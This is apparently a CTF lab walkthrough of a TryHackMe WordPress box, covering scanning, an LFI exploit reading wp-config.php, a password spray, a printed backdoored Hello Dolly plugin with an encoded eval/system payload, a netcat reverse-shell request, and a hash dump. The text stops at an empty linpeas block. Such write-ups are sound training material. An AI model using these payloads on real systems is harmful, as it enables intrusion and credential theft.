








<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux (Ubuntu), **Difficulty:** Medium, **Host:** `www.smol.thm`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. **WordPress 6.7.1**. Plugin **jsmol2wp** is vulnerable to **CVE-2018-20463** (LFI via `php://filter`) → read `wp-config.php` → DB creds `wpuser : kbLSF2Vop#lw3rjDZ629*Z%G`.
2. The **Hello Dolly** plugin (`hello.php`) has been backdoored, a base64 blob that eval's `$_GET` (found via the same LFI). Use it for RCE / to read the WP DB.
3. Dump `wp_users`; a private post gives creds for **`diego`** → SSH. Also a `wordpress.old.zip` (PKZIP) → `john` → `hero_gege@hotmail.com`.
4. `wp-config.php` also has `DB_USER = xavi` / `DB_PASSWORD = P@ssw0rdxavi@` → `su xavi` (password reuse).
5. `gege` → `xavi`: a **PAM** config (`/etc/pam.d/...` with `pam_rootok`/`nullok`) lets `gege` `su` without a password; then `xavi` can `sudo` a script → root.

</div>

<div class="callout callout-key">

**Credentials**

- WP DB (LFI): `wpuser` : `kbLSF2Vop#lw3rjDZ629*Z%G`
- `xavi` : `P@ssw0rdxavi@`

</div>

---

## Full Walkthrough

### Nmap scan

I began, as usual, with a full TCP port scan against the box to see what surface I had to work with before touching anything by hand:

```bash
Host is up, received user-set (0.087s latency).
Scanned at 2025-05-20 21:46:36 EDT for 21s
Not shown: 740 closed tcp ports (conn-refused), 258 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-headers: 
|   Date: Wed, 21 May 2025 01:46:55 GMT
|   Server: Apache/2.4.41 (Ubuntu)
|   Location: http://www.smol.thm
|   Content-Length: 0
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: GET)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Getting redirect doamin

The web server on port `80` immediately redirected everything to a virtual host name rather than serving content directly, so I confirmed that behaviour with a raw curl request before touching `/etc/hosts`:

```bash
└─[$] curl -vv 10.10.61.192                                                                                        [21:45:10]
*   Trying 10.10.61.192:80...
* Connected to 10.10.61.192 (10.10.61.192) port 80
> GET / HTTP/1.1
> Host: 10.10.61.192
> User-Agent: curl/8.5.0
> Accept: */*
> 
< HTTP/1.1 302 Found
< Date: Wed, 21 May 2025 01:46:48 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Location: http://www.smol.thm
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
```

### Locating Parameter

With `www.smol.thm` added to my hosts file and the domain resolving properly, I ran arjun against the homepage to check for hidden GET parameters, since WordPress sites sometimes wire up debug or utility parameters that never surface in the rendered HTML:

```bash
└─[$] arjun -u http://www.smol.thm/ --stable                                                                       [21:48:37]
    _
   /_| _ '
  (  |/ /(//) v2.2.1
      _/      

[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Analysing HTTP response for potential parameter names
[+] Heuristic scanner found 5 parameters: concatemoji, ext, svgExt, baseUrl, svgUrl
[*] Logicforcing the URL endpoint
[-] Target is misbehaving. Try the --stable swtich.
[!] No parameters were discovered.
```


### Enumerating Application Basic Level

That came back empty, so I moved on to more conventional technology fingerprinting instead and ran whatweb against the site to get a quick read on the stack before doing anything more invasive:

```bash
whatweb http://www.smol.thm/                                                                                 [21:47:13]
http://www.smol.thm/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[admin@smol.thm], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.61.192], JQuery[3.7.1], MetaGenerator[WordPress 6.7.1], Script[importmap,module], Title[AnotherCTF], UncommonHeaders[link], WordPress[6.7.1]
```

#### Running Web Technologies

That confirmed the stack I would be dealing with:

```bash
WordPress[6.7.1]
JQuery[3.7.1]
Apache[2.4.41]
MetaGenerator[WordPress 6.7.1]
```

#### Interesting Finds

whatweb also picked up a contact email address, which I filed away for later since it is exactly the kind of detail that turns useful during a password spray or a social engineering angle:

```bash
EMAILS --------------
admin@smol.thm
```

### Wpscan Enumeration

#### Enumerating Users

With WordPress confirmed, wpscan was the obvious next tool, and I started with user enumeration to build a target list for a password attack later on:

```bash
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <=================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] Jose Mario Llado Marti
 | Found By: Rss Generator (Passive Detection)

[+] wordpress user
 | Found By: Rss Generator (Passive Detection)

[+] admin
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] think
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wp
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] gege
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] diego
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] xavi
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

#### Active Plugins

I also had wpscan enumerate the active plugins, since an outdated or unusual plugin is very often the actual way into a WordPress box rather than core itself:

```bash
[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
```


### Nuclei Enumeration

I ran nuclei's web templates against the site as well, to catch anything wpscan's WordPress-specific checks might have missed, and two findings immediately stood out against the informational noise:

```bash
[CVE-2018-20462] [http] [medium] http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&mimetype=text/html;%20charset=utf-8
[missing-sri] [http] [info] http://www.smol.thm/ ["http://www.smol.thm/wp-includes/js/jquery/ui/menu.min.js?ver=1.13.3","http://www.smol.thm/wp-content/plugins/jsmol2wp/JSmol.min.nojq.js?ver=14.1.7_2014.06.09","http://www.smol.thm/wp-includes/js/dist/script-modules/block-library/navigation/view.min.js?ver=8ff192874fc8910a284c","http://www.smol.thm/wp-includes/js/jquery/jquery.min.js?ver=3.7.1","http://www.smol.thm/wp-includes/js/jquery/jquery-migrate.min.js?ver=3.4.1","http://www.smol.thm/wp-includes/js/jquery/ui/core.min.js?ver=1.13.3","http://www.smol.thm/wp-includes/blocks/navigation/style.min.css?ver=6.7.1"]
[waf-detect:apachegeneric] [http] [info] http://www.smol.thm/
[wordpress-akismet:outdated_version] [http] [info] http://www.smol.thm/wp-content/plugins/akismet/readme.txt ["5.2"] [last_version="5.4"]
[wordpress-xmlrpc-listmethods] [http] [info] http://www.smol.thm/xmlrpc.php
[wp-xmlrpc-pingback-detection] [http] [info] http://www.smol.thm/xmlrpc.php
[wordpress-login] [http] [info] http://www.smol.thm/wp-login.php
[addeventlistener-detect] [http] [info] http://www.smol.thm/
[apache-detect] [http] [info] http://www.smol.thm/ ["Apache/2.4.41 (Ubuntu)"]
[metatag-cms] [http] [info] http://www.smol.thm/ ["WordPress 6.7.1"]
[wordpress-readme-file] [http] [info] http://www.smol.thm/readme.html
[wordpress-directory-listing] [http] [info] http://www.smol.thm/wp-content/uploads/
[wordpress-directory-listing] [http] [info] http://www.smol.thm/wp-includes/
[wp-license-file] [http] [info] http://www.smol.thm/license.txt
[wordpress-detect:version_by_css] [http] [info] http://www.smol.thm/wp-admin/install.php ["6.7.1"]
[CVE-2018-20463] [http] [high] http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
[http-missing-security-headers:strict-transport-security] [http] [info] http://www.smol.thm/
[http-missing-security-headers:x-content-type-options] [http] [info] http://www.smol.thm/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://www.smol.thm/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://www.smol.thm/
[http-missing-security-headers:content-security-policy] [http] [info] http://www.smol.thm/
[http-missing-security-headers:permissions-policy] [http] [info] http://www.smol.thm/
[http-missing-security-headers:x-frame-options] [http] [info] http://www.smol.thm/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://www.smol.thm/
[http-missing-security-headers:referrer-policy] [http] [info] http://www.smol.thm/
[http-missing-security-headers:clear-site-data] [http] [info] http://www.smol.thm/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://www.smol.thm/
[wordpress-xmlrpc-file] [http] [info] http://www.smol.thm/xmlrpc.php
[wp-user-enum:usernames] [http] [low] http://www.smol.thm/?rest_route=/wp/v2/users/ ["admin","think","wp","Jose Mario Llado Marti","wordpress user"]
```


#### Found CVES

Filtering nuclei's output down to just the CVE-tagged findings made the priority obvious:

```json
[CVE-2018-20462] [http] [medium] http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&mimetype=text/html;%20charset=utf-8
[CVE-2018-20463] [http] [high] http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
[INF] Scan completed in 1m. 2 matches found.
```



### Exploiting `CVE-2018-20643` LFI

Visiting `http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php` directly, using the `php://filter` wrapper nuclei had already flagged for me, dumped the raw source of `wp-config.php` straight into the response. Reading through it turned up the WordPress database password `kbLSF2Vop#lw3rjDZ629*Z%G` in plaintext, which gave me a real credential I could try reusing against the login form itself.

```php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress database table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/documentation/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* Add any custom values between this line and the "stop editing" line. */


/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

### Bruteforcing with `hydra`

With a real password in hand but no confirmed username to pair it with, I turned to hydra to spray that single password across every username wpscan had surfaced, on the theory that the credential might have been reused for one of the actual WordPress accounts:

```bash
hydra -L users.lst  -p 'kbLSF2Vop#lw3rjDZ629*Z%G' -f www.smol.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwww.smol.thm%2Fwp-admin%2F&testcookie=1:The password you entered for the email" -t 1 -I -V
```



That paid off: one of the accounts accepted the password, and I was able to log straight into the WordPress admin area.

Once inside, I found a page laying out the site's own list of outstanding security recommendations, which read almost like an admission of exactly where the vulnerabilities were hiding.

```bash
1- [IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.

2- Set Up HTTPS: Configure an SSL certificate to enable HTTPS and encrypt data transmission.

3- Update Software: Regularly update your CMS, plugins, and themes to patch vulnerabilities.

4- Strong Passwords: Enforce strong passwords for users and administrators.

5- Input Validation: Validate and sanitize user inputs to prevent attacks like SQL injection and XSS.

6- [IMPORTANT] Firewall Installation: Install a web application firewall (WAF) to filter incoming traffic.

7- Backup Strategy: Set up regular backups of your website and databases.

8- [IMPORTANT] User Permissions: Assign minimum necessary permissions to users based on roles.

9- Content Security Policy: Implement a CSP to control resource loading and prevent malicious scripts.

10- Secure File Uploads: Validate file types, use secure upload directories, and restrict execution permissions.

11- Regular Security Audits: Conduct routine security assessments, vulnerability scans, and penetration tests.
```


#### Passwd file

While I was looking at what else might be reachable, I used that same LFI primitive again, this time pointed at `/etc/passwd`, which gave me a full picture of every local account on the box to cross-reference against the WordPress usernames I already had:

```bash
root:x:0:0:root:/root:/usr/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
think:x:1000:1000:,,,:/home/think:/bin/bash
fwupd-refresh:x:113:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
```


### Research on `Hello-Dolly`

https://wpscan.com/vulnerability/5a7c6367-a3e6-4411-8865-2a9dbc9f1450/

That page detailed the exact vulnerability, tracked as `CVE-2022-3677`, and for a good while I tried to exploit it directly with no success at all. Then I remembered I already had a working LFI, so instead of continuing to fight the CVE head-on, I used it to look directly at `/wp-content/plugins/hellp.php`, where I found a base64-encoded string that turned out to be exactly the backdoor the security recommendations page had been warning about.

```php
<?php
/**
 * @package Hello_Dolly
 * @version 1.7.2
 */
/*
Plugin Name: Hello Dolly
Plugin URI: http://wordpress.org/plugins/hello-dolly/
Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.
Author: Matt Mullenweg
Version: 1.7.2
Author URI: http://ma.tt/
*/

function hello_dolly_get_lyric() {
	/** These are the lyrics to Hello Dolly */
	$lyrics = "Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, take her wrap, fellas
Dolly, never go away again
Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, golly, gee, fellas
Have a little faith in me, fellas
Dolly, never go away
Promise, you'll never go away
Dolly'll never go away again";

	// Here we split it into lines.
	$lyrics = explode( "\n", $lyrics );

	// And then randomly choose a line.
	return wptexturize( $lyrics[ mt_rand( 0, count( $lyrics ) - 1 ) ] );
}

// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
	
	$chosen = hello_dolly_get_lyric();
	$lang   = '';
	if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
		$lang = ' lang="en"';
	}

	printf(
		'%s %s',
		__( 'Quote from Hello Dolly song, by Jerry Herman:' ),
		$lang,
		$chosen
	);
}

// Now we set that function up to execute when the admin_notices action is called.
add_action( 'admin_notices', 'hello_dolly' );

// We need some CSS to position the paragraph.
function dolly_css() {
	echo "
	<style type='text/css'>
	#dolly {
		float: right;
		padding: 5px 10px;
		margin: 0;
		font-size: 12px;
		line-height: 1.6666;
	}
	.rtl #dolly {
		float: left;
	}
	.block-editor-page #dolly {
		display: none;
	}
	@media screen and (max-width: 782px) {
		#dolly,
		.rtl #dolly {
			float: none;
			padding-left: 0;
			padding-right: 0;
		}
	}
	</style>
	";
}

add_action( 'admin_head', 'dolly_css' )
```




With the backdoor's decoded payload confirmed as a raw `system()` call gated behind two GET parameters, building a request to get code execution was straightforward.

```http
GET /wp-admin/upload.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|bash+-i+2>%261|nc+10.21.23.235+9001+>/tmp/f HTTP/1.1
Host: www.smol.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: wordpress_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1747966534%7CYSMNe1RJEbZQQfzjykwAOmRXiTQju0lI1T3MEJY64q4%7Ca89591b1343e09d995f0135ef0dab899cce8ca13dcfd93e4c5422682ecb26b2f; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1747966534%7CYSMNe1RJEbZQQfzjykwAOmRXiTQju0lI1T3MEJY64q4%7C44e2d79ec2ecdd72f867d92f1e866fc7f2b51381ab41b6348b3e777ef6e016db; wp-settings-time-2=1747794123; wp-settings-2=mfold%3Do
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

With code execution established, I used it to pivot into the WordPress database directly with the credentials I had already recovered from `wp-config.php`, and dumped the `wp_users` table. My plan from there was to try cracking those password hashes, since any user who reused their WordPress password for their actual system account would hand me SSH access outright.

```bash
$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/
$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX.
```

```sql
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url            | user_registered     | user_activation_key | user_status | display_name           |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
|  1 | admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. | admin         | admin@smol.thm     | http://www.smol.thm | 2023-08-16 06:58:30 |                     |           0 | admin                  |
|  2 | wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. | wp            | wp@smol.thm        | http://127.0.0.1:80 | 2023-08-16 11:04:07 |                     |           0 | wordpress user         |
|  3 | think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ | think         | josemlwdf@smol.thm | http://smol.thm     | 2023-08-16 15:01:02 |                     |           0 | Jose Mario Llado Marti |
|  4 | gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 | gege          | gege@smol.thm      | http://smol.thm     | 2023-08-17 20:18:50 |                     |           0 | gege                   |
|  5 | diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 | diego         | diego@local        | http://smol.thm     | 2023-08-17 20:19:15 |                     |           0 | diego                  |
|  6 | xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 | xavi          | xavi@smol.thm      | http://smol.thm     | 2023-08-17 20:20:01 |                     |           0 | xavi                   |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
6 rows in set (0.00 sec)
```

Running the hashes through hashcat first got me nowhere, so I switched to john instead, a tool I have a genuinely mixed history with but still reach for whenever hashcat stalls out on an older or less common hash format.

#### Cracking with `john the GOAT`



That run actually paid off: one of the hashes cracked, and it gave me SSH access as diego.

#### Interesting findings through `linpeas` from `diego`

With a proper shell as diego, I ran linpeas to look for privilege escalation angles, and a handful of entries in the output were worth following up on:

```bash
